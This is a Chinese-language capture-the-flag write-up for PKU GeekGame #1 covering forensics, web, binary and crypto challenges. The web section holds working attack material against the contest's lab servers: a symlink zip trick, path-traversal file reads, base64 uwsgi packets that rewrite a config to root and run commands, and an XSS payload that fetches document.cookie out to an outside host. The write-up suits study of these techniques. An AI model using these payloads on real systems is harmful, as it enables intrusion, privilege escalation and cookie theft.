

<div align="center" style='font-family: "cascadia code"'>
  
  <p style="font-size: 32px; margin: 0;">PKU GeekGame #1 WriteUp</p>
  <h2>
    
    <a href="https://zisu.dev">thezzisu</a>
  </h2>

</div>

# 前言

此WriteUp无条件公开.

所有的题目对应的文件都能在`data/${PROBLEM_TYPE}/${PROBLEM_TITLE}`下找到.

# Misc

## → 签到 ←

直接把 PDF 里的“flag”复制出来. 观察得到阅读顺序是先上下后左右.

```jsx
const data = `fa{aeAGetTm@ekaev!
lgHv__ra_ieGeGm_1}`;
let [str1, str2] = data.split("\n");
console.log([...str1].map((x, i) => x + str2[i]).join(""));
```

得到 flag：`flag{Have_A_Great_Time@GeekGame_v1!}`.

## 小北问答 Remake

1. 直接高德地图搜索理科一号至六号楼，发现并没有六号楼.
   答案：`5`
2. [https://web.archive.org/web/20211118072601/https://mp.weixin.qq.com/s/g9gvBMh6fgbhAfk2ir3r4Q](https://web.archive.org/web/20211118072601/https://mp.weixin.qq.com/s/g9gvBMh6fgbhAfk2ir3r4Q)
   答案：`407`
3. [https://crt.sh/?id=4362003382](https://crt.sh/?id=4362003382)
   答案：`2021-07-11T08:49:53+08:00`
4. [https://scoreboard2020.oooverflow.io/](https://scoreboard2020.oooverflow.io/#/)
   答案：`OOO{this_is_the_welcome_flag}`
5. [https://oeis.org/A047659](https://oeis.org/A047659)
   答案：`2933523260166137923998409309647057493882806525577536`
6. [https://github.com/PKU-GeekGame/geekgame-0th/blob/05bcab4c0ec1e5347a377e255f6ccd70b4166bbb/src/choice/game/db.py#L12](https://github.com/PKU-GeekGame/geekgame-0th/blob/05bcab4c0ec1e5347a377e255f6ccd70b4166bbb/src/choice/game/db.py#L12)
   答案：`submits`
7. [https://ipinfo.io/AS59201](https://ipinfo.io/AS59201)
   答案：`AS59201`
8. [https://eecs.pku.edu.cn/info/1060/11528.htm](https://eecs.pku.edu.cn/info/1060/11528.htm)
   答案：`区域光纤通信网与新型光通信系统国家重点实验室`

综上，我们获得了两枚 flag：

```
flag{JIu-Cong-XIan-Zai-Kai-Shi}
flag{ShU1~y3~zu~Lan~Bu~Zhuuuu~}
```

## 翻车的谜语人

用 wireshark 打开抓包. 将 display filter 设为`http`.



发现流量中有明显的一部分为 Jupyter. 继续使用搜索功能：


知 flag 的生成是在 Jupyter 里运行的. 缩小搜索范围.


我们得到了三个疑似目标. 提取其中的 JSON 数据（见本题文件`dump1.json`, `dump2.json`, `dump3.json`）.

从其中恢复代码如下：

```python
import zwsp_steg
from Crypto.Random import get_random_bytes
import binascii
def genflag():
    return 'flag{%s}'%binascii.hexlify(get_random_bytes(16)).decode()
flag1 = genflag()
flag2 = genflag()
key = get_random_bytes(len(flag1))
key
def xor_each(k, b):
    assert len(k)==len(b)
    out = []
    for i in range(len(b)):
        out.append(b[i]^k[i])
    return bytes(out)
encoded_flag1 = xor_each(key, flag1.encode())
encoded_flag2 = xor_each(key, flag2.encode())
with open('flag2.txt', 'wb') as f:
    f.write(binascii.hexlify(encoded_flag2))
```

其中的异或操作可以轻松逆向（见本题文件`crack.py`）.

key 已经由 ipynb 文件中保存的运行结果获得. 考虑如何获取`encoded_flag1`.

搜索 flag1.txt. 我们可以发现一个有趣的请求：


立即由上面的解密代码得到 flag1：`flag{9d9a9d92dcb1363c26a0c29fda2edfb6}`

接下来考虑`encoded_flag2`.

搜索 flag2. 我们发现其最后被打成了 7z 包：


于是在所有数据包中搜索 7zip.


先将这个压缩包导出. 发现其出现在 websocket 流量中，考虑是用网页终端操作. 追踪该 TCP 流.


终端操作就隐含于其中. 先简单的将这堆玩意转换一下（见本题文件`out.txt`），然后写个脚本把其中的 JSON 数据提取并打印其中的`stdout`（见本题文件`cvt.js`）.

我们就得到了终端输出：


又我们可以从 pcap 文件中得到操作的大致时间：


写个脚本暴力枚举密码即可（见本题文件`2.js`）. 得到密码：`Wakarimasu! Sat 06 Nov 2021 03:44:15 PM CST you-kali-vm x86_64 GNU/Linux 8`.

解压得到 flag2.wav，用 stegolsb 得到`encoded_flag2`为`788c3a128994e765373cfc171c00edfb3f603b67f68b087eb69cb8b8508135c5b90920d1b344`.

立即得到 flag2：`flag{ffdbca6ecc5d86cb71cadfd43df36649}`.

> 🤣 题外话：
>
> 在题目中`date`命令的输出格式为：`Sat 06 Nov 2021 11:45:14 PM CST`.
>
> 在我的 Ubuntu 和 Fedora 上，格式分别为：`Sat Nov 20 13:59:08 CST 2021`和`Sat Nov 20 01:58:06 PM CST 2021`.
>
> 直接给我整吐了.

## 叶子的新歌

我们先查看歌曲的元数据.


下载文件，解压，据提示，应该用虚拟机跑这个 img 文件.


得到了一个 flag：`flag{th3_Sun5et_h0r1zon_0815}`.

继续解压 img 文件. NOTE 里提示密码：

```python
宾驭令诠怀驭榕喆艺艺宾庚艺怀喆晾令喆晾怀
```

求诸百度.


用 node 转换一下.

```jsx
map={}
'榕 艺 驭 令 怀 庚 诠 宾 晾 喆'.split(' ').forEach((x,i)=>map[x]=i)
[...'宾驭令诠怀驭榕喆艺艺宾庚艺怀喆晾令喆晾怀'].map(x=>map[x]).join('')
// '72364209117514983984'
```

解压. 提示找不同，那么我们就来找不同（见本题文件`MEMORY/diff.js`），得到`diff.bin`.

```
> file diff.bin
diff.bin: NES ROM image (iNES): 2x16k PRG, 1x8k CHR [V-mirror]
```

和提示里的红白机对应上了. 那么我们就需要一个红白机模拟器，随便下一个 VirtualNES（[https://www.onlinedown.net/soft/2064.htm](https://www.onlinedown.net/soft/2064.htm)），加载 diff.bin：（需要重命名）


这种游戏肯定得作弊. 搜索超级玛丽金手指，在[https://zhidao.baidu.com/question/85894288.html](https://zhidao.baidu.com/question/85894288.html)上找到作弊码，开无敌、飞行、选关.


游戏 UI 中有彩蛋


8-4 无限卡关


8-5 最终关

在[http://lab.maxxsoft.net/lab/ctf/leafs/](http://lab.maxxsoft.net/lab/ctf/leafs/)上输入软盘启动打印的密码获得 flag：`flag{W4ke_up_fr0m_7h3_L0NG_dre@m}`.

# Web

## 在线解压网站

猜测可以通过符号链接泄露 flag.

```bash
ln -sf /flag 1.txt
zip -y payload.zip 1.txt
```

上传并下载`1.txt`获取到 flag：`flag{NEV3r_trUSt_Any_C0mpresSeD_File}`.

## 早期人类的聊天室

题目已经提示该 Web App 使用`uwsgi`. Google 搜索 uwsgi exploit 得到其版本 2 存在远程代码执行漏洞（[https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md)）.

从`log = open('media/{}'.format(logfile)).read()`知道 chatlog 模块可以任意读文件.

可以获取到以下文件：

```
# /module?name=chatlog&log=../../../../../proc/1/cmdline
/sbin/docker-init--shrun.sh

# /module?name=chatlog&log=../../../../../proc/self/cmdline
uwsgi--ini/tmp/uwsgi-ctf.ini

# /module?name=chatlog&log=../../../../../tmp/uwsgi-ctf.ini
[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = nobody
gid = nogroup
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid

# Guess Docker init script is /usr/src/ufctf/run.sh
# /module?name=chatlog&log=../../../../../usr/src/ufctf/run.sh
#!/bin/sh

cd /usr/src/ufctf

cp /flagtmp /flag
echo "" > /flagtmp

chown nobody -R . \
    && chmod 0666 -R /tmp/* \
    && chown root:root /flag \
    && chmod 0600 /flag

socat UNIX-LISTEN:/sock/socat.sock,fork,reuseaddr TCP4:127.0.0.1:8080 &

nginx -c /etc/nginx/nginx.conf
exec supervisord -n -c /etc/supervisor-ctf.conf

# /module?name=chatlog&log=../../../../../etc/supervisor-ctf.conf
[supervisord]
logfile=/tmp/supervisord.log ; main log file; default $CWD/supervisord.log
logfile_maxbytes=50MB        ; max main logfile bytes b4 rotation; default 50MB
logfile_backups=0           ; # of main logfile backups; 0 means none, default 10
loglevel=info                ; log level; default info; others: debug,warn,trace
pidfile=/tmp/supervisord.pid ; supervisord pidfile; default supervisord.pid
nodaemon=true               ; start in foreground if true; default false
silent=false                 ; no logs to stdout if true; default false
minfds=1024                  ; min. avail startup file descriptors; default 1024
minprocs=200                 ; min. avail process descriptors;default 200

[program:uwsgi]
command=uwsgi --ini /tmp/uwsgi-ctf.ini
user=root
autorestart=true
autostart=true
startretries=3
redirect_stderr=true
startsecs=5
stdout_logfile=/tmp/supervisor.log
stopasgroup=true
killasgroup=true
priority=999

[program:chatbot]
command=python /usr/src/ufctf/chatbot.py
user=nobody
autorestart=true
autostart=true
startretries=3
redirect_stderr=true
startsecs=5
stdout_logfile=/tmp/supervisor.log
stopasgroup=true
killasgroup=true
priority=999
```

至此，我们已经发现，`/tmp`下的文件可以任意读写；supervisord 设置 uwsgi 的用户是 root；uwsgi 配置中的用户是 nobody，但可以修改. 由于 uwsgi 在重启时默认只时重载代码，而我们需要让 supervisord 重启 uwsgi，分析 uwsgi 源码（[https://github.com/unbit/uwsgi/blob/86bc640672e6076085c60ed05c54d3b9f852c23f/core/master_utils.c#L482](https://github.com/unbit/uwsgi/blob/86bc640672e6076085c60ed05c54d3b9f852c23f/core/master_utils.c#L482)），我们发现需要多加一个参数让 uwsgi 乖乖的退出. 利用基于[https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)修改的脚本，得到攻击用的消息：

```
// Ideal config file
[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = root
gid = root
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid
exit-on-reload = true
// Converted
AOAAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUqAGV4ZWM6Ly9lY2hvICJbdXdzZ2ldIiA+IC90bXAvdXdzZ2ktY3RmLmluaQsAU0NSSVBUX05BTUUFAC9mdWNr
AOgAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUyAGV4ZWM6Ly9lY2hvICJzb2NrZXQgPSA6MzAzMSIgPj4gL3RtcC91d3NnaS1jdGYuaW5pCwBTQ1JJUFRfTkFNRQUAL2Z1Y2s=
APAAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU6AGV4ZWM6Ly9lY2hvICJjaGRpciA9IC91c3Ivc3JjL3VmY3RmIiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
APMAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU9AGV4ZWM6Ly9lY2hvICJtYW5hZ2Utc2NyaXB0LW5hbWUgPSB0cnVlIiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
AOsAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU1AGV4ZWM6Ly9lY2hvICJtb3VudCA9IC89YXBwOmFwcCIgPj4gL3RtcC91d3NnaS1jdGYuaW5pCwBTQ1JJUFRfTkFNRQUAL2Z1Y2s=
AOcAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUxAGV4ZWM6Ly9lY2hvICJtYXN0ZXIgPSB0cnVlIiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
AOQAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUuAGV4ZWM6Ly9lY2hvICJ1aWQgPSByb290IiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
AOQAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUuAGV4ZWM6Ly9lY2hvICJnaWQgPSByb290IiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
AOUAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUvAGV4ZWM6Ly9lY2hvICJ3b3JrZXJzID0gMiIgPj4gL3RtcC91d3NnaS1jdGYuaW5pCwBTQ1JJUFRfTkFNRQUAL2Z1Y2s=
AO0AAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU3AGV4ZWM6Ly9lY2hvICJidWZmZXItc2l6ZSA9IDY1NTM1IiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
AO8AAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU5AGV4ZWM6Ly9lY2hvICJlbmFibGUtdGhyZWFkcyA9IHRydWUiID4+IC90bXAvdXdzZ2ktY3RmLmluaQsAU0NSSVBUX05BTUUFAC9mdWNr
APIAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU8AGV4ZWM6Ly9lY2hvICJwaWRmaWxlID0gL3RtcC91d3NnaS5waWQiID4+IC90bXAvdXdzZ2ktY3RmLmluaQsAU0NSSVBUX05BTUUFAC9mdWNr
AO8AAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU5AGV4ZWM6Ly9lY2hvICJleGl0LW9uLXJlbG9hZCA9IHRydWUiID4+IC90bXAvdXdzZ2ktY3RmLmluaQsAU0NSSVBUX05BTUUFAC9mdWNr
```

配置修改完毕.

构造辅助脚本如下：

```
// Helper script
import uwsgi
uwsgi.reload()
// Converted
AOIAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUsAGV4ZWM6Ly9lY2hvICdpbXBvcnQgdXdzZ2knID4gL3RtcC9wYXlsb2FkLnB5CwBTQ1JJUFRfTkFNRQUAL2Z1Y2s=
AOUAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUvAGV4ZWM6Ly9lY2hvICd1d3NnaS5yZWxvYWQoKScgPj4gL3RtcC9wYXlsb2FkLnB5CwBTQ1JJUFRfTkFNRQUAL2Z1Y2s=
```

执行两次辅助脚本

```
AMUAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUPAC90bXAvcGF5bG9hZC5weQsAU0NSSVBUX05BTUUFAC9mdWNr
```

执行`cat /flag > /tmp/flag`.

```
ANIAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUcAGV4ZWM6Ly9jYXQgL2ZsYWcgPiAvdG1wL2ZsYWcLAFNDUklQVF9OQU1FBQAvZnVjaw==
```

得到 flag：`flag{UwSg1_iS_n0t_SafE_whEN_SSrf}`.

## Q 小树洞的一大步

> 为了模拟比赛第一阶段的情况，我关闭了 Chrome Devtools 里的 JavaScript sourcemap 功能.

先分析 XSSBot：

```python
driver.execute_script(f'document.cookie="flag={FLAG}"')
```

可知，flag 在用户浏览器的 cookie 里. 接下来考虑如何获取这个 cookie.

首先，我们肯定需要从 URL 注入某些东西. 在 Chrome Devtools 的 Source 中搜索`location`.


发现该 Web App 会把满足条件的 URL Hash 存入状态中的`search_text`. 继续追踪`search_text`：


发现可以通过构造恶意 hash 来任意修改 localStorage. 那么这有什么用呢？我们继续搜索可能的攻击点：


当 Web App 加载时，会从 localStorage 读一份`APPSWITCHER_ITEMS`，并会执行其中的`fix`部分. 于是，若我们将这个修改为如下值时，便能取得浏览器的 cookie，并发送给我们的服务器：

```json
{
  "switcher_2": {
    "bar": [["hole", "树洞", "#", "", null, false]],
    "dropdown": [],
    "fix": {
      "hole": "console.log('ok');fetch('https://MY_SITE/?ck='+document.cookie)"
    }
  }
}
```

构造恶意 URL：

```
https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#%2F%2Fsetflag%20APPSWITCHER_ITEMS%3D%7B%22switcher_2%22%3A%7B%22bar%22%3A%5B%5B%22hole%22%2C%22%E6%A0%91%E6%B4%9E%22%2C%22%23%22%2C%22%22%2Cnull%2Cfalse%5D%5D%2C%22dropdown%22%3A%5B%5D%2C%22fix%22%3A%7B%22hole%22%3A%22console.log('ok')%3Bfetch('https%3A%2F%2Fqbt.zisu.dev%2F%3Fck%3D'%2Bdocument.cookie)%22%7D%7D%7D?
```

接下来只需要让用户访问到这个 URL. 由于在网站加载 500ms 时会尝试请求一份新的`APPSWITCHER_ITEMS`，我们可以构造一个网页，使得其中含有一个`iframe`指向这个 URL，并在 400ms 后跳转到树洞（以使得`cookie`能被注入的代码访问）. 具体的网页见本题文件的`1.html`，`1.js`.

最后，我们起一个服务器，让 XSS Bot 访问即可：


具体的服务器脚本可以见本题文件`index.js`.

这样，我们就得到了 flag：`flag{Eval-Always-ConsidereD-HarmFul}`.

## Flag 即服务

考虑路径逃逸.

```bash
curl --path-as-is https://prob11-????????.geekgame.pku.edu.cn/api/../package.json
```

得到**package.json**的内容.

```json
{
  "name": "demo-server",
  "version": "1.0.0",
  "description": "",
  "scripts": { "start": "node --max-http-header-size=32768 start.js" },
  "author": "You",
  "license": "WTFPL",
  "dependencies": {
    "jsonaas-backend": "https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"
  }
}
```

下载得到后端代码.

看到`if(FLAG0!==`flag{${0.1+0.2}}`)`,立即知 flag0：`flag{0.30000000000000004}`.

而对于 flag1，我们可以利用如下函数：

```jsx
app.get("/activate", (req, res) => {
  if (req.query.code === FLAG1) req.session.activated = 1;
  if (req.session.activated)
    res.send(`You have been activated. Activation code: ${FLAG1}`);
  else res.send("Wrong activation code :(");
});
```

只要把`req.session.activated`弄成一个 truly value 即可. 考虑原型链投毒. 又结合`waf`函数没有判断输入类型，只要以数组形式传入参数即可.

构造恶意 URL，浏览器访问

```
/api/demo.json?out_path=a&out_path=b/constructor/prototype/activated
```

然后激活. 即得到 flag1：`flag{I-Can-Activate-From-ProTotyPe}`.

而对于 flag2，我们知道在 Linux 下，调用`fopen`获取 fd 后，会在`/proc/self/fd`下建立符号链接；`unlink`虽然把文件“删除”了，但只要还有它的 fd 存在，就没有真正删除，可以通过`/proc/self/fd/${fd}`访问.

于是，我们只需要注入下列代码即可获取 flag2：

```jsx
const [p, a] = this.constructor.constructor(
  "return [process.ppid,(this.global.require||process.mainModule.require)('fs')]"
)();
const b = "/proc/" + p + "/fd/";
let r = "";
a.readdirSync(b).forEach((c) => {
  const d = b + "/" + c;
  try {
    if (a.readlinkSync(d).endsWith("(deleted)")) {
      r += a.readFileSync(d).toString().trim();
    }
  } catch {}
});
r;
```

现在只需要考虑对注入代码的限制：

```jsx
if (term.indexOf("_") !== -1) {
  res.send("Bad parameter!");
  return;
}
if (eval_mode && /^\([^a-zA-Z"',;]+\)$/.test(term)) term = safe_eval(term);
```

也就是我们的代码里不能出现`_`和`[a-zA-Z"',;]`. 为此，我参考[JSFuck](http://www.jsfuck.com)将上述注入代码转换了一下，见本题附件的`7.js`, `8.js`, `jsfucker.js`以及`out.txt`.

接下来我们需要的仅仅是重启环境，用获得的 flag1 激活，打开 eval，然后输入该恶意 URL：

```
/api/demo.json?in_path=a&in_path=b/constructor/prototype/x/${encodeURIComponent(out)}/y/x
```

获得：

```json
{
  "flag{0.30000000000000004}flag{I-Can-Activate-From-ProTotyPe}flag{I-Can-steal-File-ON-The-Disk}": {
    "y": {}
  }
}
```

得到 flag2：`flag{I-Can-steal-File-ON-The-Disk}`.

其中只要在 path 最后加一个`/`就可以绕过代码中的`this feature is currently under development :(`.

# Binary

## 诡异的网关

探索 UI，发现好东西：


那么密码应该就是 flag. 打开 CheatEngine.


获得 flag：`flag{h0w_did_yOu_g3t_th3_paSsw0rd?}`.

## 最强大脑

先试试把所有内存输出一下.

```python
b'.+[>.+]'.hex() # 2e2b5b3e2e2b5d
```

```
flag{n0_trainIng_@_@ll}
Q�flag{n0_trainIng_@_@ll}
A�
```

得到 flag：`flag{n0_trainIng_@_@ll}`.

# Algorithm

## 电子游戏概论

下载 Hint 中的文件，用 uncompyle6 反编译，并将其中`Elem.evildirt`的贴图修改为别的贴图（我使用的是`playerHurtL`）. 然后把 Canvas 的大小改大，即可手玩该游戏. 在周五的计算概论大课上，我玩了约一个小时即玩出 flag：`flag{NeVvA-Gonna-Give-U-Up}`.


> 🤣 题外话：
>
> 对于第二个 flag，可以用动态规划解出路径（参见本题目录下的`solver.py`）.
>
> 然而我太菜了，只能在 200 秒内玩出 15 关 🤗😇.

## 密码学实践

先考虑函数`MESenc`.

考虑如下代码

```python
for key in keys:
    a, b, c, d = b, c, d, a ^ c ^ key
```

我们有（$k_i$为常数）

```
Round 0: a      b      c      d
Round 1: b      c      d      a^c^k1
Round 2: c      d      a^c^k1 b^d^k2
Round 3: d      a^c^k1 b^d^k2 a^k3
Round 4: a^c^k1 b^d^k2 a^k3   b^k4
Round 5: b^d^k2 a^k3   b^k4   c^k5
Round 6: a^k3   b^k4   c^k5   d^k6
```

故知道整体变换为

```
a b c d -> c^k1 d^k2 a^c^k3 b^d^k4
```

那么就可以写出破解代码（见本题文件`crack1.py`，`crack2.py`）.

获得 flag1：`flag{Fe1SteL_NeTw0rk_ne3d_An_OWF}`.

考虑怎么获得第二个 flag. 我们需要装成 Alice. 观察到源代码中的`packmess`函数和`unpackmess`函数，以及加密会丢失低位的 0. 同时我们发现上帝并不会检查名字是否为空，这也就意味着我们可以构造一个 key，使得下列代码会返回`Alice`：

```python
akey=unpackmess(sinfo)
pinfo=sinfo[:len(sinfo)-len(akey)-2]
aname=unpackmess(pinfo)
```

其中让`len(sinfo)-len(akey)-2`变成负数即可. 故构造 key 如下：

```python
b'\x00\x00Alice\x00\x05'.hex() # 0000416c6963650005
```

用空的 name 和这个 key 去注册证书，然后去糊弄 Richard，我们就得到了第二个串. 套用上面的做法我们就得到了第二个 flag：`flag{RSa_1s_multIPlic4tivE_Hom0MorpHic}`.

## 扫雷

